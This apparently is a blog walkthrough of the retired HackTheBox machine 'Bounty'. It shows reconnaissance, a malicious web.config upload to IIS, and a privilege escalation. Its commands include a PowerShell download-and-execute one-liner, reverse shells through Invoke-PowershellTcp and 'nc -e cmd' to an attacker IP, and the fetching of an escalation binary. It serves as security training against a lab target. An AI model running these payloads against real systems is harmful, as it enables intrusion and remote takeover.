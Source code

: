 ```yaml
---
layout: post
title: "HTB-Bounty"
date: 2020-02-16 14:55:00 +0000
categories: HTB-Walkthrough
---
```


![bounty](/assets/img/bounty.png)

This is a great box from the HTB 'retired' list.

Diving straight in with nmap then...
`nmap -sV -Pn -v 10.10.10.93 |tee -a boun.txt`

```

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Not a great deal of choice...

Lets have a closer look.

```

root@kali:~/HTB/retired/bounty# nmap --script=vuln -p80 10.10.10.93
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 07:45 EST
Nmap scan report for bounty.htb (10.10.10.93)
Host is up (0.092s latency).

PORT   STATE SERVICE
80/tcp open  http
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-vuln-cve2015-1635:
|   VULNERABLE:
|   Remote Code Execution in HTTP.sys (MS15-034)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2015-1635
|       A remote code execution vulnerability exists in the HTTP protocol stack (HTTP.sys) that is
|       caused when HTTP.sys improperly parses specially crafted HTTP requests. An attacker who
|       successfully exploited this vulnerability could execute arbitrary code in the context of the System accoun>
|
|     Disclosure date: 2015-04-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1635
|_      https://technet.microsoft.com/en-us/library/security/ms15-034.aspx

Nmap done: 1 IP address (1 host up) scanned in 273.70 seconds

```

Forced-browsing with gobuster...

`gobuster -u http://10.10.10.93 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x .aspx,.asp,.html`

```

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.93/
[+] Threads      : 50
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : aspx,asp,html
[+] Timeout      : 10s
=====================================================
2019/11/13 09:38:51 Starting gobuster
=====================================================
Progress: 15215 / 882244 (1.72%)/transfer.aspx (Status: 200)
/UploadedFiles (Status: 301)
/uploadedFiles (Status: 301)
/uploadedfiles (Status: 301)
=====================================================
2019/11/13 10:13:53 Finished
=====================================================

```

/transfer.aspx is worth looking at closer....

we find that we can only upload web.config files...

we have to create an xml file and call it web.config

```

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
       <system.webServer>
              <handlers accessPolicy="Read, Script, Write">
                     <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
              </handlers>
              <security>
                     <requestFiltering>
                            <fileExtensions>
                                   <remove fileExtension=".config" />
                            </fileExtensions>
                            <hiddenSegments>
                                   <remove segment="web.config" />
                            </hiddenSegments>
                     </requestFiltering>
              </security>
       </system.webServer>
</configuration>
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(New-Object Net.WebClient).DownloadString('http://10.10.14.19/shell.ps1');")
o = cmd.StdOut.Readall()
Responsse.write(o)
%>

```

If you haven't already, get to know xml files, they can be super useful; and also (perhaps more importantly) get to know useful powershell commands.
the IEX DownloadString one above is very useful, as is the IWR (Invoke-WebRequest) one. You will find them invaluable when working with Windows targets.


Anyway...the exploit above requires us to host the shell.ps1 file so
get a webserver running.
Incidentally, the shell.ps1 file can be found in /usr/share/webshells...modify it to call us on 4444.
we can do this by appending the following to the file...
`Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.19 -Port 4444`

so...the webserver to serve shell.ps1:

`python3 -m http.server 80`

Also get an nc shell running to catch the resulting reverse-shell connection...
`nc -nlvp 4444`

we get PowerShell command-line as user merlin....and access to the user flag.

```

PS C:\users\merlin\desktop> more user.txt
#  e29xxxxxxxxxxxxxxxxxxxf

```

The laziest way to continue would be to use windows-exploit-suggester.py

get nc.exe onto target..
`IWR -uri http://10.10.14.19/nc.exe -outfile c:\boo\nc.exe`

...then get cli shell...do
`systeminfo`

copy systeminfo to kali file sysinfo.txt

```

root@kali:~/HTB/retired/bounty# python wes.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2020-01-26-mssb.xls
[*] done
root@kali:~/HTB/retired/bounty# python wes.py --database 2020-01-26-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5>
[*]
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Importa>
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Im>
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done

```

select ms10-015 to try escalation...not listed here...but does work...I've used it recently and I've got it readily to hand.

`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.19/priv.exe','C:\boo\priv.exe')"`


`c:\boo\priv.exe "c:\boo\nc.exe 10.10.14.19 999 -e cmd"`

```

C:\Users\Administrator\Desktop>type root.txt
type root.txt
c8xxxxxxxxxxxxxxxxxxxxea

```

It worked !!! If it had failed, I could have gone down the suggested list trying each, If the machine was patched against those vulnerabilities it would have required closer manual or scripted inspection. 

####################################################


